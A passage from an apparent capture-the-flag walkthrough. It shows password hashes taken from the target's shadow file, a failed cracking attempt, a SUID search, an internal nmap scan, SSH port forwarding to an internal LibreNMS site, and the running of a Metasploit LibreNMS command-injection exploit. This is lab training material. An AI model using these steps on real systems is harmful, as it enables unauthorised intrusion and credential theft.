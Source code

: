     aeolus:$6$dgjUjE.Y$G.dJZCM8.zKmJc9t4iiK9d723/bQ5kE1ux7ucBoAgOsTbaKmp.0iCljaobCntN3nCxsk4DLMy0qTn8ODPlmLG.:18095:0:99999:7:::
    cronus:$6$wOmUfiZO$WajhRWpZyuHbjAbtPDQnR3oVQeEKtZtYYElWomv9xZLOhz7ALkHUT2Wp6cFFg1uLCq49SYel5goXroJ0SxU3D/:18095:0:99999:7:::
    mysql:!:18095:0:99999:7:::
    Debian-snmp:!:18095:0:99999:7:::
    librenms:!:18095::::::

We can see that there is another user (cronus) on the machine.
I tried using "john" to crack the passwords for 'root', 'aeolus' and 'cronus' but unfortunately I was not successful.
Let's search for SUID files on the machine.

    find / -perm /4000 2> /dev/null

I tried to see what permissions the user has and If there were any SUID files on the machine but there were none useful.

At this point I got stuck for a while, there were no 'crontabs', SUID files or kernel exploits available, I looked at a write up for this CTF and saw that we needed to do another NMAP scan from the remote machine.

    $ nmap localhost 

    PORT     STATE SERVICE
    21/tcp   open  ftp
    22/tcp   open  ssh
    25/tcp   open  smtp
    80/tcp   open  http
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    3306/tcp open  mysql
    8080/tcp open  http-proxy

The machine has a web proxy, we need to Port Forward the content of the proxy to our local machine, (Port Forwarding allows computers over the internet to connect to a specific computer or service within a private network). We can use SSH for this.

    $ ssh -L 8000:localhost:8080 aeolus@10.0.0.32

![image](https://user-images.githubusercontent.com/76552238/158075879-d7cf8f43-195c-4344-a15d-dbb154830655.png)

After logging in, and going to localhost:8000, we get a site with the "LibreNMS" service running on it. We can log with the same credentials we logged in to SSH with.

![image](https://user-images.githubusercontent.com/76552238/158075965-89c6ca5c-7a34-4c2f-bd03-2ae247d513fd.png)

I searched Metasploit for "LibreNMS" and found this exploit --->

    exploit/linux/http/librenms_addhost_cmd_inject

![image](https://user-images.githubusercontent.com/76552238/158076632-aa22352c-fd50-4d65-b205-4c5309a887a1.png)

    $ msf6 exploit(linux/http/librenms_addhost_cmd_inject) > run

![image](https://user-images.githubusercontent.com/76552238/158076655-19ba86c9-b24b-4fc6-9426-8d2a71857486.png)
